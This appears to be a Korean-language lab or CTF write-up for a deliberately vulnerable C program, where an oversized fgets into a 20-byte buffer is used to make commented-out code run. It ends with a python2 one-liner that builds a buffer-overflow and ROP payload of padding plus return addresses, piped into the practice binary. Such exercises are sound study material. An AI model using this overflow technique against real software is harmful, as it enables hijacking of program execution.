



# Multi Function Call 3

### Question

- 주석으로 처리된 부분처럼 프로그램 수행되도록 실행

```
#define MAX 49
#define BUFFER_SIZE 20
char Mesg[]="Run Func1!\\n"
           "Run Func2!\\n"
           "Run Func3!\\n"
           "Run Func4!\\n";
int main(int argc,char *argv[])
{ 
    char buf1[BUFFER_SIZE];
     char *buf2 = buf1 + 0x200;
    
     printf(" What your name : ");
     fgets(buf1, MAX, stdin);
     printf("\\nYour Name is %s\\n", buf1);
    
    //  strcpy(buf2, Mesg);    // ---> 1
    //  printf("%s", buf2);    // ---> 2
}
```


<br>


### Analysis

**1) Format String Bug**

- printf() 함수에 %n 과 같은 인자를 입력해 buf2 위치에 Mesg 뒤집어 씌우기
- ROP 이용해서 printf(buf2)

<br>

**2)**

- -> mesg 주소에 있는 값이 아닌 주소 자체를 문자열로 읽어버림
    buf2 변수에 mesg 주소 넣기
- ROP 이용해 printf(buf2)

<br>

**3)**








```
python2 -c "print 'A'*24 + '\\x15\\xe6\\x41\\x00' + '\\x40\\x10\\x40\\x00' + '\\x24\\xff\\x19\\x00' + '\\x60\\x3f\\x44\\x00' + '\\x24\\xff\\x19\\x00'" | .\\multi_func_3.exe
```
